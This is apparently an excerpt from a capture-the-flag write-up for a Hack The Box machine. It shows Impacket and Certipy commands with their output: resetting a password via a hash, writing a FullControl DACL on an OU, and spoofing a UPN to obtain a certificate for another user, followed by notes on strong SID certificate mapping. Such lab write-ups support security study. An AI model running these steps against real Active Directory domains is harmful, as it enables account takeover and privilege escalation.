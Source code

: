 ```bash
➜ changepasswd.py 'scepter.htb'/'a.carter'@10.129.28.117 -reset -altuser 'd.baker' -althash :'18..ce'

➜ dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'a.carter' -target-dn 'OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB' 'scepter.htb'/'a.carter':'password'

Impacket v0.13.0.dev0+20240918.213844.ac790f2b - Copyright Fortra, LLC and its affiliated companies

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250420-060416.bak
[*] DACL modified successfully!

➜ certipy account update -username "a.carter@scepter.htb" -p 'password' -user d.baker -upn 'h.brown'

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'd.baker':
    userPrincipalName                   : h.brown
[*] Successfully updated 'd.baker'

➜ certipy req -username "d.baker" -hashes :"18..ce" -target "DC01.scepter.htb" -ca 'scepter-DC01-CA' -template 'User' -dc-ip '10.129.76.175' -subject "CN=d.baker,CN=Users,DC=scepter,DC=htb" -debug

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'DC01.scepter.htb' at '10.129.76.175'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.129.76.175[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.129.76.175[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 10
[*] Got certificate with subject: DC=htb,DC=scepter,OU=Staff Access Certificate,CN=d.baker
[*] Got certificate with UPN 'h.brown'
[*] Certificate object SID is 'S-1-5-21-74879546-916818434-740295365-1106'
[*] Saved certificate and private key to 'h.brown.pfx'

➜ certipy account update -username "a.carter@scepter.htb" -p "password" -user d.baker -upn "d.baker@scepter.htb"

➜ certipy auth -pfx 'h.brown.pfx' -domain "scepter.htb"

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: h.brown@scepter.htb
[*] Trying to get TGT...
[-] Object SID mismatch between certificate and user 'h.brown'
[-] Verify that user 'h.brown' has object SID 'S-1-5-21-74879546-916818434-740295365-1106'
```
> The SID is the recommended way and therefore counts as "Strong".
The DC uses this SID in strong implicit certificate mapping instead of the weak UPN and DNS mapping to ensure that the enrollee can only authenticate as themselves.
The strong ones contain identifiers that you cannot reuse.
For example, the mail attribute is not a unique protected attribute so it is possible to set the mail attribute to the value of another user.

